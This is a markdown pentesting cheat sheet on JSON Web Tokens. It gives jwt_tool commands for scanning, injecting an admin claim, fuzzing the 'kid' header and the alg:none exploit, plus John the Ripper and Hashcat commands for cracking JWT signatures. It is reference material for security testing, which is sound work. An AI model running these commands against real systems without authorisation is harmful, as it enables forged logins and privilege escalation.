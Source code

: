 ```yaml
---
title: Json Web Token (JWT) Pentesting
desc:
tags: [Cryptography, Hashcat, JSON, JWT, Token, Web]
alts: []
render_with_liquid: false
---
```


## Decode JWT

1. **Use Online Tools**

    - **[JWT.io](https://jwt.io/){:target="_blank"}{:rel="noopener"}**

        JWT Decoder and Encoder.

2. **Use JWT Toolkit**

    **[JWT Toolkit](https://github.com/ticarpi/jwt_tool){:target="_blank"}{:rel="noopener"}** is a toolkit for testing, tweaking and cracking JWT.

    ```sh
    python jwt_tool.py <Base64_Encoded_JWT>
    ```

<br />

## Automation

1. **Use JWT Toolkit**

    1. **Scan**

        ```sh
        # -t: Target URL
        # -rc: Cookies
        # -M pb: Playbook Scan Mode
        # -cv: Canary Value
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -M pb -cv "not authorized"
        ```

    2. **Exploit**

        ```sh
        # -X i: Exploit (inject inline)
        # -I -pc username -pv admin: Inject Claim ("username": admin)
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -X i -I -pc username -pv admin
        ```

    3. **Fuzzing**

        ```sh
        # -I -hc kid -hv wordlist.txt: Inject Claim ("kid": FUZZ)
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -I -hc kid -hv wordlist.txt
        ```

<br />

## Manual Pentesting

1. **Use JWT Toolkit**

    ```sh
    # Tamper (Manual Exploit)
    python jwt_tool.py <Base64_Encoded_JWT> -T

    # Exploit (Automated Exploit)
    # -X a: Exploit (alg: none)
    python jwt_tool.py <Base64_Encoded_JWT> -X a
    ```

<br />

## Crack JWT Signature

First of all, you need to put the JWT into the text file.

```sh
echo -n '<Base64_Encoded_JWT>' > jwt.txt
```

Then crack the hash using John the Ripper or Hashcat.

```sh
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

hashcat -a 0 -m 16500 jwt.txt passwords.txt
hashcat -a 0 -m 16500 jwt.txt passwords.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt '?u?l?l?l?l?l?l?l' -i --increment-min=6
```